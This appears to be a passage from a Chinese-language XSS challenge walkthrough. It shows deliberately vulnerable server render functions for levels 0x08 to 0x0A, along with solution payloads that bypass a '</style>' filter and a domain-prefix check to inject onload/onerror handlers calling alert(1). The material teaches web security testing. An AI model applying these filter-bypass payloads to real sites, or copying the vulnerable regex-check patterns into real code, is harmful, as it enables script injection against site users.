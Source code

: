 - solution

正则匹配替换`</style>`为`/* 坏人 */`，不区分大小写。可对</style>属性进行空白字符隔开进行绕过。

```html
//input code
//1.style后加空格
</style ><svg/onload='alert(1)'>
//2.style后换行
</style
><svg/onload='alert(1)'>
//html
<style>
      </style ><svg/onload='alert(1)'>
    </style>
```

## 0x09

- server code

```js
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```

- solution

正则匹配以`https://www.segmentfault.com`开头的输入字段`input`，若无匹配返回失败；可以构造满足条件的`input`对标签进行闭合，插入js脚本，并注释结尾`></script>`。

```html
//input code
https://www.segmentfault.com"></script><img src=x onerror=alert(1)> //
//html
<script src="https://www.segmentfault.com"></script><img src=x onerror=alert(1)> //"></script>
```

## 0x0A

- server code

```js
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```
